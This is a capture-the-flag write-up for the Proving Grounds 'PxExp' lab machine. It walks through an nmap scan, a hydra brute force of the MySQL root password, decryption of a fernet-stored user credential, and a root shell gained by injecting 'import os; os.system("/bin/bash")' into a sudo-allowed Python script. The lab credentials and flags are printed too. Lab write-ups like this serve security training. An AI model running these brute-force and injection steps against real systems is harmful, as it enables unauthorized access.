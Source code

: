 ```yaml
---
title: PxExp
categories: [Proving Grounds Play]
tags: [Password Bruteforce, PrivEsc, mysql]
image:
  path: https://miro.medium.com/v2/resize:fit:1200/1*fiNtXsFnX5MR7BPQV_wBvg.png
  alt:  PxExp Machine 🖥️
---
```



### Let’s find the IP Address first >>

![Untitled](/Vulnhub-Files/img/Pxexp/Untitled.png)

```bash
IP : 192.168.249.139
```
{: .nolineno}

## Port Scan Results ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/pyexp]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 192.168.249.139
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-23 11:44 EDT
Nmap scan report for 192.168.249.139
Host is up (0.00080s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
1337/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 f7af6cd12694dce51a221a644e1c34a9 (RSA)
|   256 46d28dbd2f9eafcee2455ca612c0d919 (ECDSA)
|_  256 8d11edff7dc5a72499227fce2988b24a (ED25519)
3306/tcp open  mysql   MySQL 5.5.5-10.3.23-MariaDB-0+deb10u1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.23-MariaDB-0+deb10u1
|   Thread ID: 47
|   Capabilities flags: 63486
|   Some Capabilities: SupportsCompression, Speaks41ProtocolNew, IgnoreSigpipes, Speaks41ProtocolOld, LongColumnFlag, SupportsLoadDataLocal, InteractiveClient, ODBCClient, FoundRows, IgnoreSpaceBeforeParenthesis, SupportsTransactions, Support41Auth, DontAllowDatabaseTableColumn, ConnectWithDatabase, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults
|   Status: Autocommit
|   Salt: <Y-t"G#s>{qEC`:@p7`]
|_  Auth Plugin Name: mysql_native_password
MAC Address: 00:0C:29:26:C6:0F (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
{: .nolineno}

## MySQL Enumeration ⤵️

Lets try hydra for mysql login with user as root →

```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt mysql://192.168.249.139 -t 4
```
{: .nolineno}

![Untitled](/Vulnhub-Files/img/Pxexp/Untitled%201.png)

Got credentials as →

```bash
root : prettywoman
```
{: .nolineno}

![Untitled](/Vulnhub-Files/img/Pxexp/Untitled%202.png)

Now lets dig deeper →

```bash
MariaDB [(none)]> use data;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [data]> show tables;
+----------------+
| Tables_in_data |
+----------------+
| fernet         |
+----------------+
1 row in set (0.001 sec)
MariaDB [data]> select * from fernet \G ;
*************************** 1. row ***************************
cred: gAAAAABfMbX0bqWJTTdHKUYYG9U5Y6JGCpgEiLqmYIVlWB7t8gvsuayfhLOO_cHnJQF1_ibv14si1MbL7Dgt9Odk8mKHAXLhyHZplax0v02MMzh_z_eI7ys=
keyy: UJ5_V_b-TWKKyzlErA96f-9aEnQEfdjFbRKt8ULjdV0=
1 row in set (0.001 sec)

ERROR: No query specified

MariaDB [data]>
```
{: .nolineno}

Now I searched for fernet decode and  I got this site →

[https://asecuritysite.com/tokens/ferdecode](https://asecuritysite.com/tokens/ferdecode)

![Untitled](/Vulnhub-Files/img/Pxexp/Untitled%203.png)

```bash
credentials ->
lucy  :  wJ9`"Lemdv9[FEw-
```
{: .nolineno}

![Untitled](/Vulnhub-Files/img/Pxexp/Untitled%204.png)

Now lets find path to root →

```bash
lucy@pyexp:~$ 
lucy@pyexp:~$ sudo -l
Matching Defaults entries for lucy on pyexp:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User lucy may run the following commands on pyexp:
    (root) NOPASSWD: /usr/bin/python2 /opt/exp.py
lucy@pyexp:~$ sudo -u root /usr/bin/python2 /opt/exp.py
how are you?import os; os.system("/bin/sh")
# exit
lucy@pyexp:~$ sudo -u root /usr/bin/python2 /opt/exp.py
how are you?import os; os.system("/bin/bash"); 
root@pyexp:/home/lucy# whoami
root
root@pyexp:/home/lucy# id
uid=0(root) gid=0(root) groups=0(root)
root@pyexp:/home/lucy# cd ~
root@pyexp:~# ls -al
total 32
drwx------  3 root root 4096 Aug 10  2020 .
drwxr-xr-x 18 root root 4096 Aug 10  2020 ..
-rw-------  1 root root    5 Aug 10  2020 .bash_history
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
drwxr-xr-x  3 root root 4096 Aug 10  2020 .local
-rw-------  1 root root 2731 Aug 10  2020 .mysql_history
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   33 Aug 10  2020 root.txt
root@pyexp:~# cat root.txt
a7a7e80ff4920ff06f049012700c99a8
root@pyexp:~#
root@pyexp:/home/lucy# ls
user.txt
root@pyexp:/home/lucy# cat user.txt
8ca196f62e91847f07f8043b499bd9be
root@pyexp:/home/lucy#
```